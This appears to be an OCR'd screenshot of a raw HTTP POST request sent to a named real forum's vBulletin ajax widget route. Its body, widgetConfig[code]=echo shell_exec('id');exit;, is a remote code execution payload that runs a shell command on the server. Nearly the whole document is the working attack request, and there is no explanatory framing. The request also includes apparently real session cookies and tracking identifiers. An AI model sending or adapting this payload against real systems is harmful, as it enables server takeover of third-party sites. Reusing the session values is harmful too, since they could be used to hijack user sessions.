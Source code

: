 POST /index.php?routestring=ajax/render/widget_php HTTP/1.1
Host: forum.webzen.com
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.132 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://forum.webzen.com/
Accept-Encoding: gzip, deflate
Accept-Language: ar,en-US;q=0.9,en;q=0.8,th;q=0.7,fr;q=0.6,ru;q=0.5
Cookie: vbwebzensessionhash=da9a25bcd0c2321558473f67a6e5a295; vbwebzenlastvisit=1569424662; vbwebzenlanguageid=1; PHPSESSID=ugtppbn8bt0i7kknpu57vjfsl5; vbwebzenuserstyleid=1; vbwebzenlastactivity=1569424665; _ga=GA1.2.1198144153.1569424664; _gid=GA1.2.1701724512.1569424664; __qca=P0-1005232971-1569424664125; vbwebzenlastactivity=1569426167; _dc_gtm_UA-50716969-1=1; CurrentCulture=pl-PL
Connection: close
Content-Length: 48


widgetConfig[code]=echo shell_exec('id');exit;
